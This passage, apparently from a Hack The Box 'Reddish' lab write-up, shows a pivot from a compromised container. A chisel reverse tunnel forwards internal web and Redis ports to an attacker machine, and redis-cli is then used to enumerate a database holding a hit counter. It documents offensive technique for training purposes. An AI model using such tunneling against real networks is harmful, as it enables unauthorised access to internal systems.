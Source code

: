 ![source code](assets/img/htb/reddish/source_container_1.png)

Proceeding to enumerate the redis server of 172.19.0.3.

Forward the port through chisel to the attacker machine.

```bash
root@nodered:/tmp/workspace_nodered_container## ./chisel client 10.10.14.26:1234 R:81:172.19.0.2:80 R:6379:172.19.0.3:6379
```

Access to redis using redis-cli.

```bash
$ redis-cli -h 127.0.0.1
127.0.0.1:6379> 
```
Further enumeration of the database show that 172.19.0.3 is storing the number of hits of the website in 172.19.0.2
```bash
127.0.0.1:6379> info keyspace
## Keyspace
db0:keys=1,expires=0,avg_ttl=0
127.0.0.1:6379[1]> select 0
OK
127.0.0.1:6379> keys *
1) "hits"
127.0.0.1:6379> get hits
"2"
127.0.0.1:6379>
```
